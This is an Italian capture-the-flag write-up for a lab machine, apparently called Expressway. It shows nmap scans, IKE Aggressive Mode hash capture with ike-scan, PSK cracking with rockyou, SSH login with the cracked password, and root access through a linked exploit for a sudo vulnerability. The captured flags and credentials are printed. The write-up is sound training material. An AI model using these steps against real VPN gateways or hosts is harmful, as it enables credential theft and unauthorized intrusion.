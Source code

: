 # Macchina Expressway

IP attaccante: 10.129.100.252

## Recon

`scan TCP: sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.100.252`

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63

scan UDP (-sU): sudo nmap -sU -sV -T4 -oN porte_udp 10.129.100.252

PORT      STATE         SERVICE        VERSION
21/udp    open|filtered ftp
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp?
639/udp   open|filtered msdp
776/udp   open|filtered wpages
996/udp   open|filtered vsinet
1012/udp  open|filtered sometimes-rpc1
1027/udp  open|filtered unknown
1035/udp  open|filtered mxxrlogin
4500/udp  open|filtered nat-t-ike
16974/udp open|filtered unknown
17184/udp open|filtered unknown
17585/udp open|filtered unknown
18821/udp open|filtered unknown
18987/udp open|filtered unknown
19161/udp open|filtered unknown
19227/udp open|filtered unknown
19647/udp open|filtered unknown
19956/udp open|filtered unknown
23980/udp open|filtered unknown
32768/udp open|filtered omad
62699/udp open|filtered unknown
```

La presenza della porta 500 indica che il dispositivo sta probabilmente eseguendo una VPN IPSec (ISAKMP), un servizio VPN comune.

## porta 500

`sudo nmap -sU -sC -sV -p500 10.129.100.252`

```bash
PORT    STATE SERVICE VERSION
500/udp open  isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0
```

### IKE enumerazione e explotazione

`sudo ike-scan -M 10.129.100.252`

ike-scan è uno strumento che scopre e fingerprinta demoni IKE (usati per negoziare tunnel IPsec/VPN). Invia pacchetti ISAKMP/IKE al target e registra le risposte (inclusi eventuali Vendor ID) per identificare implementazioni e comportamenti. 

-M forza l’esecuzione della Main Mode (la modalità «main» di IKEv1, fase 1).
Main Mode è il flusso più conservativo e «protetto» — richiede 6 messaggi per completare la negoziazione e protegge l’identità dei peer.
In pratica ike-scan -M invia le sonde necessarie per provare un Main Mode handshake e registra le risposte del responder. Se il responder risponde, puoi ottenere informazioni utili (es. Vendor ID, pattern di retransmission backoff, ecc.) che aiutano a fingerprintare il dispositivo.
IKEv1 origina su UDP/500, quindi ike-scan comunicherà tipicamente verso la porta 500 del target.

L'output potrebbe mostrare:

- Host che risponde: conferma che IKE è attivo (es. 500/udp open isakmp).
- Vendor ID payloads o fingerprint riconosciuti (es. Cisco, Juniper, Fortinet, ecc.).
- Pattern di retransmission/backoff usati per fingerprinting.

```
10.129.100.252    Main Mode Handshake returned
    HDR=(CKY-R=e000fc14add6a50d)
    SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
    VID=09002689dfd6b712 (XAUTH)
    VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
```

handshake IKE Main Mode ha restituito:

SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK ...) — il peer richiede una chiave pre-condivisa (PSK) e utilizza 3DES + SHA1, che è debole secondo gli standard moderni.
Erano presenti gli ID fornitore (XAUTH, Dead Peer Detection).
Poiché erano presenti gli ID fornitore e XAUTH, si prova la modalità aggressiva per vedere se il servizio divulga l'identità o il materiale PSK:

`sudo ike-scan -A -Ppsk.txt 10.129.100.252`

-A (Aggressive Mode)
forza una negoziazione in Aggressive Mode (IKEv1). In questa modalità la risposta del responder può includere dati non cifrati (in particolare un hash legato alla Pre-Shared Key — HASH_R) che può essere usato per attacchi offline contro la PSK. Per questo motivo Aggressive Mode è più “rivelatrice” rispetto a Main Mode.
-Ppsk.txt
l’opzione -P abilita la raccolta/visualizzazione del materiale necessario per il cracking della PSK (ossia cattura l’hash/parametri quando il target risponde in Aggressive Mode) e, se passi un nome file (qui psk.txt), ike-scan salva lì l’output utile per strumenti di cracking come psk-crack, john o hashcat. In pratica stai dicendo: “prova Aggressive Mode e salva in psk.txt qualsiasi hash/parametro utile per un cracking offline”.

Se il target supporta Aggressive Mode e usa PSK per l’autenticazione, potresti ricevere una risposta contenente Hash_R e parametri (SA, KE, Nonce, ID, ecc.) — questi dati permettono di tentare un attacco offline per recuperare la PSK.

Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.100.252    Aggressive Mode Handshake returned HDR=(CKY-R=be70b5d1dd981eb8) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

La modalità aggressiva ha restituito un'identità e un hash:
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) — l'identità IKE è stata divulgata.
È stato restituito un hash PSK di 20 byte e salvato in psk.txt.

psk.txt:
`bf8ed3fc1b2f39052ee678a500f68b142accb7e216c8a5ffa15938f0983e465e849b15dfa215a6a59b87b9a3aeb454f29b8cbe0dd3b9cd3e1f517d409a3942757739b4698f0fd63f9b8be8b2dd1237044fd544aa768ba1f970475e1da8fec28f3dfc03cf0ecd50b1d100fc757255a34e5291e154960906911f70a90a5f890e99:bc14396d977dfe4d604e104d2a59cee9c3e0c96ade16cfa791a34efb2ed0292d97063b7a5d2cc726a7fc9f5fbbda95001cf9a366f07bb743e047e547e90db8ddb051ba07d927efde27631c5a8201435345706211f29556d773185825105694e241c674f906e394ae1bbc69a779558e8742beee0edc32f1f579ae860610615224:be70b5d1dd981eb8:58e69faeb6a210e2:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:d5b3727524f69cc738f6a02187f10ea7e7292302:c5e16463e25680d84bb777ca6b9ccfe6a7a4e89cf0910e9a4baef6b58f472d81:5d1dc3a48adae5d40d5b51bdf29d8b468455155e`

`sudo ike-scan --aggressive 10.129.100.252 -n ike@expressway.htb --pskcrack=hash.txt`

`-n ike@expressway.htb`
imposta l’ID inviato nell’exchange (IDi o IDr). In Aggressive Mode l’ID può comparire in chiaro nella risposta: spesso è necessario scegliere/correspondere l’ID corretto per ottenere una risposta utile (alcuni dispositivi rispondono solo a ID attesi). Qui stai inviando ike@expressway.htb come identificatore.

`--pskcrack=hash.txt`
istruisce ike-scan a salvare in hash.txt il materiale necessario per il cracking della Pre-Shared Key (se il target risponde in modo da fornire quel materiale — tipicamente possibile con Aggressive Mode). Il file risultante conterrà l’hash/parametri che poi puoi usare con strumenti di cracking offline (es. psk-crack, o con conversione per john/hashcat)

```
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.100.252    Aggressive Mode Handshake returned HDR=(CKY-R=5ee7cd4e550ca844) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)
```

hash.txt:
`7c7655bf722ff713b5acad2e86ebcb0d79926211697e987c8eb5c599ccac7b0ae1405b949e74b6deb1d2595830b2a5a56105ee48dc0d96f47913615668769de137c5176aac4ca6e480864bde025b62fb22222d289f8cb701501945a35b23a43d254834e53447e9b3b74fb0489ec3fc1f0d449ca5778c4920335ee0811dedd1b3:b997714a22e2a3f5c5fea332b5642a9cabd767bba6df25ee5e26ae473fbdf0dd8ece2c7b3a375d499339d34fb7587e001082b1c049ab29b28be1a1ec88e5d1647f94bbc17a3d66fcbbd7a748625cab59699d1868985f693d70db4ef22c879b38a1a98be8b4a419b92e9eea4fbfb6f96d9a80b6b05ae2170c2ab36848dbd32006:5ee7cd4e550ca844:820eb9cba76d5ea7:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:e85b83fa23b2059721d44f129456d734dd634c91:21656f580686d1ccfa06139965beca451f37ff79e4fe2800f3ebb2e17ae59b5c:55e9dec8b900514eeb87172fbd26538d5f4a60f7`

### Crack della Pre-Shared Key (PSK) per IKE

psk-crack è un utility che tenta di craccare offline una Pre-Shared Key (PSK) per IKE (ottenuta ad es. con ike-scan -A --pskcrack=hash.txt ...).
-d /usr/share/wordlists/rockyou.txt indica la wordlist (qui rockyou.txt) da usare come sorgente delle password candidate (modalità dizionario).
hash.txt è il file che contiene l’hash/parametri estratti dal target (NON la PSK stessa) — psk-crack usa quei parametri per verificare, per ogni voce della wordlist, se corrisponde alla PSK che ha generato la risposta catturata.

```
Starting psk-crack [ike-scan 1.9.5] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 55e9dec8b900514eeb87172fbd26538d5f4a60f7
Ending psk-crack: 8045040 iterations in 4.503 seconds (1786446.04 iterations/sec)
```

trova la password: freakingrockstarontheroad

## SSH (porta 22)

quindi proviamo ad entrare in ssh con
user: ike 
password: freakingrockstarontheroad

Effettivamente si riesce ad entrare e nella directory è presente il file user.txt con la user flag:
`337f6f0bcab8ac0d841714a4fdf17fb7`

### Scalata dei privilegi

`sudo -V `
troviamo la versione di sudo

```
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

La versione 1.9.17 è soggetta alla vulnerabilità CVE-2025–32463
Esistono exploit per questa vulnerabilità:
https://github.com/kh4sh3i/CVE-2025-32463/blob/main/exploit.sh

creare un file bash con lo script dell'exploit
dare il permesso di esecuzione al file (chmod +x)
eseguire il file -> si diventa root

Nella cartella root si trova il file root.txt che contiene la root flag:
`a4b40e77a490797f7c87317bfb6012ea`
